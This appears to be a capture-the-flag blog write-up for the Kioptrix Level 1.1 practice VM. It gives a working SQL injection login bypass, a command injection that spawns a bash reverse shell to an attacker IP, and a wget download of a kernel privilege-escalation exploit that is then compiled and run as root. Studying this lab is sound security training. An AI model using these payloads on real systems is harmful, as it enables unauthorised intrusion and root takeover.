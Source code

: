 ```yaml
---
layout: post
title: Kioptrix Level 1.1 (#2)
---
```


Hello, today I'll share how to break second instance of Kioptrix.

From Authors description:
>This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

# Recon
Nmap scan shows a couple of services:
```bash
# nmap 192.168.0.104 -sT -sV -O -n
-- snip --
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind    2 (RPC #100000)
443/tcp  open  ssl/https?
631/tcp  open  ipp        CUPS 1.1
3306/tcp open  mysql      MySQL (unauthorized)
-- snip --
```

I'll how attacker can easly use HTTP service to gain reverse shell.

## SQL Injection authentication bypass

Opening main HTTP page shows a login page:
![Kioptrix login page](/images/kioptrix2/loginpage.png)

Inserting values like
```
username: administrator
password: ' OR 'a'='a
```

Makes the SQL condition always true and therefore creates a session without actual credentials.

## Bash injection
After logging in we are presented with another form:
![Kioptrix login page](/images/kioptrix2/pingform.png)

It seems to be a simple tool running ping on given IP. I make an educated guess that it simply runs ping thorugh bash command. So injecting another command after a semicolon should also be executed:<br/><br/>
![Command injection](/images/kioptrix2/injection.png)

Having confirmed the vulnerability I incject a simple reverse shell:
```bash
; bash -i >& /dev/tcp/192.168.0.105/443 0>&1
```

That should return a shell to attackers machine:
```bash
# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.104] 32770
bash: no job control in this shell
bash-3.00$ whoami
apache
```

## Privlege escalation
Server seems to be running under an outdated system version:
```bash
# nc -nvlp 443
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

Kernel version 2.6.9-55.EL is vulnerable to a [privlege escalation vulnerability](https://www.exploit-db.com/exploits/9542). I download source code to attackers machine. Then I download, compile and run the exploit on the the victim:
```bash
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.0.105/9542.c
-- snip --
12:44:16 (360.08 MB/s) - '9542.c' saved [2643/2643]
bash-3.00$ gcc 9542.c -o 9542
9542.c:109:28: warning: no newline at end of file
sh-3.00# python -c 'import pty; pty.spawn("/bin/sh")'
sh-3.00# ./9542
./9542
[-] check ur uid
sh-3.00# id
id
uid=0(root) gid=0(root) groups=48(apache)
```

Time for root dance :)
